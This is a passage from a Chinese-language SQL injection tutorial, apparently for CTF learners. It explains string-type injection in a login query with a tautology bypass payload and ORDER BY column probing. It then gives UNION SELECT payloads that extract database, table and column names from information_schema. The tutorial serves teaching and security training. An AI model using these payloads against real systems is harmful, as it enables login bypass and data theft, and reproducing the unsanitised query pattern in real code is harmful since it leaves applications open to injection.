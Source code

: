   ![image-20230426202627021](https://nssctf.wdf.ink//img/WDTJ/202304262026058.png)

#### 字符型注入

下面我们假设一个登录系统，那么他会接收两个参数 用户名和密码 后台的查询语句可能这样写

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

对于这种，开发时，预期数据收到的参数都为字符，使用字符进行查询的数据库的注入漏洞 我们称为字符型注入。

与数字型不同的是，我们需要先构造单引号的闭合。

这里我们让 `$username `= `-1' or '1'='1' -- `

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' -- ' AND password='$password';
```

![image-20230426203250434](https://nssctf.wdf.ink//img/WDTJ/202304262032468.png)

就可以使`Where`的条件永真,直接输出`SELECT * FROM users`的所有内容。

同样，与数字型的注入方式类似，我们也可以使用联合查询的方法来获取数据库信息。

`order by `判断列数

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' order by 1-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 2-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 3-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 4-- ' AND password='$password'; # 报错
```



![image-20230426213252233](https://nssctf.wdf.ink//img/WDTJ/202304262132275.png)

那么接下来就和数字型注入相同 吧 `order by NUM` 换成对应的语句即可：

- 库名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

- 表名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```
- 字段名


```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```
